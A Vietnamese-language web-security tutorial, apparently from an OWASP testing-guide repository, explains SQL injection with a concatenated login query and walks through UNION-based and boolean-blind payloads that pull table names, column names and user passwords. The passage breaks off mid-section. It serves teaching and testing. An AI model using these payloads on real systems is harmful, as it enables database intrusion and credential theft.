 # Description
- SQL injection là một kỹ thuật cho phép những kẻ tấn công lợi dụng lỗ hổng của việc kiểm tra dữ liệu đầu vào trong các ứng dụng web và các thông báo lỗi của hệ quản trị cơ sở dữ liệu trả về để dữ liệu và thi hành các câu lệnh SQL bất hợp pháp.  
- Tấn công có thể đọc dữ liệu nhạy cảm từ cơ sở dữ liệu, sửa đổi dữ liệu cơ sở dữ liệu (chèn / cập nhật / xóa), thực thi các thao tác quản trị trên cơ sở dữ liệu.  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-1.png)  

### Ví dụ minh họa
```sql
$query = "SELECT * FROM users WHERE uname = '" + $userName + "' AND password='"+$password+"';";
```
- Câu lệnh này được thiết kế để kiểm tra đăng nhập hoặc thông tin người dùng cụ thể từ bảng những người dùng.
- Tuy nhiên, nếu biến "userName" được nhập chính xác theo một cách nào đó bởi người dùng ác ý, nó có thể trở thành một câu truy vấn SQL với mục đích khác hẳn so với mong muốn của tác giả đoạn mã trên.
- Ví dụ, ta nhập vào giá trị của biến userName như sau: 
```sql
admin' OR 1=1#
```
- Câu truy vấn trở thành:
```sql
SELECT * FROM users WHERE uname = 'admin' OR 1=1 # AND password='';
```
- Câu truy vấn trên sẽ lấy dữ liệu của admin. Điều này vô cùng nguy hiểm!!!
### Có năm kỹ thuật chung để khai thác SQL. Ngoài ra, các kỹ thuật này đôi khi có thể được sử dụng theo cách kết hợp :
- Union query based
- Boolean base
- Error based
- Out-of-band
- Time based
# How to test
#### 1. Phát hiện
- Thêm vào câu truy vấn các meta character trong các hệ quản trị cơ sở dữ liệu, chẳng hạn như dấu nháy đơn (single quote), dấu nháy kép (double quote), dấu chấm phẩy (semi colon) và các ký tự comment (--, ##, /**/)…

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-2.png)  



#### 2. Thu thập thông tin về hệ quản trị cơ sở dữ liệu
- Khi phát hiện ứng dụng bị dính lỗi SQL injection, công việc cần làm tiếp theo là thu thập thông tin về hệ quản trị cơ sở dữ liệu mà ứng dụng đang dùng, thông tin này bao gồm loại cơ sở dữ liệu (mysql, mssql, oracle…) và phiên bản của nó.

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-3.png)  

#### 3. Xác định số lượng cột trong mệnh đề select
- Ta có thể sử dụng mệnh đề ```order by``` hoặc dùng ```UNION SELECT```  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-4.png)  

- Kết quả trả về lỗi do số lượng cột của 2 mệnh đề select khác nhau. Tăng thêm số lượng cột :

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-5.png)  

#### 4. Xác định thông tin
- Sau khi lấy được các thông tin cơ bản, chúng ta sẽ tiến hành khai thác SQL injection để lấy cơ sở dữ liệu hay thực hiện những hành vi khác thông qua lỗ hổng này.
- Ở đây chúng ta sử dụng kĩ thuật UNION BASED.

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-6.png)  

- Tiếp tục, lấy tên các bảng trong cơ sở dữ liệu bằng cách sử dụng database information_schema:
```sql
1' union select 1,CONCAT(TABLE_NAME),3 FROM information_schema.TABLES where TABLE_SCHEMA='leettime_761wHole'-- -
```

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-7.png)  

- Lấy tên cột:

```sql
-1' union select 1,CONCAT(COLUMN_NAME),3 FROM information_schema.COLUMNS where TABLE_NAME='users'-- -
```

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-8.png)  

- Lấy dữ liệu từ bảng:
```sql
-1' union select 1,CONCAT(username,'+',password,'-'),3 FROM users-- -
```

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-9.png) 

# Các kĩ thuật khai thác sql
### SQL boolean base
- Boolean based: Cơ sở của kỹ thuật này là việc so sánh đúng sai để tìm ra từng ký tự của những thông tin như tên bảng, tên cột… Khi mà chúng ta không thể sử dụng kĩ thuật UNION BASE


##### Example:
- Trang web sau kiểm tra tham số id. Nếu id tồn tại thì thông báo đăng nhập thành công, ngược lại thì thất bại.  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-10.png) 
![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-11.png) 

- Bây giờ ta sẽ chèn vào câu truy vấn một mệnh đề true-false.
```sql
-1' OR 1=1 -- -
```
- Như ta đã biết 'flase' OR 'true' eq 'true',  'flase' OR 'false' eq 'false'. Hoặc ta có thể sử dụng AND.

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-12.png) 
![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-13.png)  

- Tiến hành lấy tên cơ sở dữ liệu:

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-14.png)  

- Do tên cơ sở dữ liệu rất dài nên chúng ta cần viết một đoạn script để lấy tên cơ sở dữ liệu.

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-15.png) 

##### Tối ưu hóa tấn công sql blind
1. Sử dụng thuật toán tìm kiếm nhị phân.
    Việc sử dụng sqlblind truyền thống là đang sử dụng việc tìm kiếm tuần tự. Tức là sẽ tìm kiếm kí tự lần lượt theo bảng chữ cái. Như vậy việc tìm kiếm sẽ rất là tốn thời gian nếu kí tự cần tìm ở cuối danh sách. Ở đây ta sẽ sử dụng thuật toán tìm kiếm nhị phân để tối ưu hóa thời gian tấn công.
    Xét ví dụ trên, ta có payload:
    ```sql
    1' AND ascii(SUBSTR(database(),1,1))<100 -- -
    ```
    payload trên lấy number ascii của chữ cái đầu tiên trong tên của database và so sánh với 100.

    ![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-16.png)
    ![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-17.png)

    Như chúng ta thấy chữ cái đầu tiên trong tên của database là "l" tương ứng với number 108 trong bảng mã ascii. Cho nên nếu chúng ta so sánh nó nhỏ hơn 100 thì sẽ nhận được thông báo dạng false, ngược lại ta sẽ nhận được thông báo dạng true.

    ![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/005-18.png)
2. Tối ưu hóa bằng cách sử dụng kỹ thuật dịch bit (Bit Shifing)
    Mỗi ký tự đều tương ứng với một giá trị trong bảng mã ASCII. Giá trị này từ 0 đến 127 đối với hệ cơ số thập phân, nếu chuyển sang hệ nhị phân thì giá trị này sẽ được biểu diễn bằng 7 bit
    
